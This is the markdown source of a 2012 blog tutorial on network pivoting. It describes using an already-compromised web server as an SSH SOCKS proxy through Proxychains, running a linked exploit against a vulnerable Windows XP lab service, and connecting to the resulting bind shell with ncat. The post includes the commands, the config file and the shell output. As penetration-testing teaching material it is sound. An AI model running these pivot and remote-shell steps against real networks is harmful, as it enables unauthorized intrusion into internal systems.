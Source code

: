 ```yaml
---
layout: post
title: "Introduction to pivoting, Part 2: Proxychains"
date: 2012-10-10 18:10:26 -0400
comments: true
categories: howto hacking
alias: /2012/10/introduction-to-pivoting-part-2.html
---
```


This is part 2 of a series of posts on pivoting techniques. In part 1, we used SSH port forwarding to pivot our exploit and obtain remote access to our Windows XP machine. In this article, we'll be performing the same attack, but instead of using SSH local port forwarding, we'll use Proxychains and an SSH SOCKS proxy.

<!--more-->

Proxychains sends connections made by applications through a proxy specified in the proxychains.conf file. By default, it uses Tor's SOCKS port 9050. Proxychains 4 can be downloaded from [https://github.com/haad/proxychains](https://github.com/haad/proxychains).

### The scenario

There are two networks, 192.168.81.0/24 and 192.168.63.0/24. Our attacking machine, and a web server that has access to the 192.168.63.0/24 network are located in the 192.168.81.0/24 network. Our target, a Windows XP SP2 machine, is located in the 192.168.63.0/24. Our attacking machine does not have direct access to it, but the web server does.

->![](/images/2012-10-10/01.jpg)<-

We've already compromised the web server and obtained SSH access to it as the user webmaster. Our goal is to use the web server as our pivot and obtain a remote shell on the Windows XP machine. 

### The exploit

The Windows XP machine runs a vulnerable service called Server-Strcpy on port 10000. Server-Strcpy is part of the [SecurityTube Exploit Research Megaprimer](http://www.securitytube.net/video/1399) series, and can be downloaded at [http://code.securitytube.net/Server-Strcpy.exe](http://code.securitytube.net/Server-Strcpy.exe). I've written a quick exploit for Server-Strcpy.exe that binds a shell on port 4444, and can be downloaded [here](http://techorganic.com/software/serverstrcpy.py).


### The attack

To use Proxychains, we need to connect to the web server via SSH and set it as a SOCKS proxy. This is easily accomplished with the -D option in SSH. This is the command we would run on our machine: 

```
ssh -D 127.0.0.1:8888 webmaster@192.168.81.181
```

We would now have port 8888 listening on our machine, and any connection sent to that port will be proxied over to the web server, and the web server will make the connection on our behalf.
Proxychains 4 allows us to specify a configuration file to use, so we'll create a simple one that basically tells it to use port 8888 on our machine as the proxy: 

```
strict_chain
quiet_mode
proxy_dns
remote_dns_subnet 224
tcp_read_time_out 15000
tcp_connect_time_out 8000
localnet 127.0.0.0/255.0.0.0
 
[ProxyList]
socks4  127.0.0.1 8888
```

We'll save this as pivot.conf. We'll use the same exploit as before, which should open a bind shell on port 4444 on our Windows XP machine. Instead of running the exploit directly, we pass it as an argument to Proxychains: 

```
# proxychains4 -f ~/pivot.conf /usr/bin/python exploit.py 192.168.63.142 10000
[proxychains] config file found: /root/pivot.conf
[proxychains] preloading /usr/local/lib/libproxychains4.so
[+] sending payload of length 1479
[+] done
#
```

The -f option allows us to tell Proxychains which configuration file we want to use; in this case, pivot.conf. Notice that when we executed exploit.py, we specified the actual IP address of the target, and not 127.0.0.1, like we did in part 1. Proxychains makes it look like the target is directly accessible to us.

Now that the exploit has been executed, we can attempt to connect to the target on port 4444 and obtain our shell. In this case, I'll use ncat 

```
# proxychains4 -f ~/pivot.conf ncat -v 192.168.63.142 4444
[proxychains] config file found: /root/pivot.conf
[proxychains] preloading /usr/local/lib/libproxychains4.so
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.63.142:4444.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
 
C:\Documents and Settings\Administrator\Desktop>ipconfig
ipconfig
 
Windows IP Configuration
 
 
Ethernet adapter Local Area Connection:
 
        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.63.142
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.63.2
 
C:\Documents and Settings\Administrator\Desktop>
```

We've successfully obtained a remote shell on a machine on the internal network by pivoting with Proxychains. So far we've required SSH in order to pivot our attack. In part 3, we'll use ncat's client-to-client and listener-to-listener relays to perform our pivoting; a technique that does not require SSH. 
